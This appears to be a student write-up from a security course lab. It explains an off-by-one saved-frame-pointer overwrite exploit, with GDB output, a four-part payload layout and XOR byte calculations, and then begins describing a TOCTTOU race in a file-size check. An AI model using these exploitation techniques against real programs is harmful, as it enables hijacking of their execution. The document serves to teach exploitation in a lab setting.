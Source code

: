 ```
 source language c.
 Arglist at 0xffffd5b0, args: in=0xffffd751 "AAAA\216\377\337\337", 'A' <repeats 56 times>, "P"
 Locals at 0xffffd5b0, Previous frame's sp is 0xffffd5b8
 Saved registers:
  ebp at 0xffffd5b0, eip at 0xffffd5b4
```
The sfp of ```invoke``` is located below rip at 0xffffd5b0 with value 0xffffd5bc. To make it point to the start of ```buf```, we have to change the least significant byte bc (0xffffd5bc) to 70 (0xffffd570). Because each byte is xored with 0x20 before overwriting to the ```buf```, 0x50 does the job. 0x20 ^ 0x50 = 0x70

## Exploit Structure
#### (A description of your exploit structure)
This exploit has four parts:
1. Write 4 bytes of garbage to account for sfp popoff.
2. Overwrite the next 4 bytes with the address of shellcode.
3. Write 56 bytes of garbage to pad rest of ```buf```. 
4. Overwrite the least significant byte of the sfp of ```invoke``` to make it point back to ```buf``` (0xffffd570).

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious exploit string, we got the following output:
```
(gdb) x/32x buf
0xffffd570:     0x61616161      0xffffdfae      0x61616161      0x61616161
0xffffd580:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd590:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd5a0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd5b0:     0xffffd570      0x0804927a      0xffffd751      0xffffd5c8
0xffffd5c0:     0x0804929e      0xffffd751      0xffffd650      0x0804946f
0xffffd5d0:     0x00000002      0xffffd644      0xffffd650      0x0804a000
0xffffd5e0:     0x00000000      0x00000000      0x0804944d      0x0804bfe8
```
After 4 bytes of garbage, address of shellcode is successfully inserted into the buffer, 56 more bytes of garbage to pad rest of buffer and the sfp of ```invoke``` at 0xffffd5b0 points back to the start of the ```buf``` (0xffffd570) which causes our program to go back to buf, pick up the address of shellcode and start executing it.

# Question 5: Deneb Write-up
## Main Idea
#### (A description of the vulnerability)
The code is vulnerable because between the bound check of the file (if it is too large) and the use of that file when it is read (```read``` function), the state of the file can be changed. 

```
    if (file_is_too_big(fd)) EXIT_WITH_ERROR("File too big!");

    printf("How many bytes should I read? ");
    fflush(stdout);
    if (scanf("%u", &bytes_to_read) != 1)
    EXIT_WITH_ERROR("Could not read the number of bytes to read!");

    ssize_t bytes_read = read(fd, buf, bytes_to_read);
    if (bytes_read == -1) EXIT_WITH_ERROR("Could not read!");
```
This is a Time-Of-Check To Time-Of-Use  (TOCTTOU) vulnerability. 
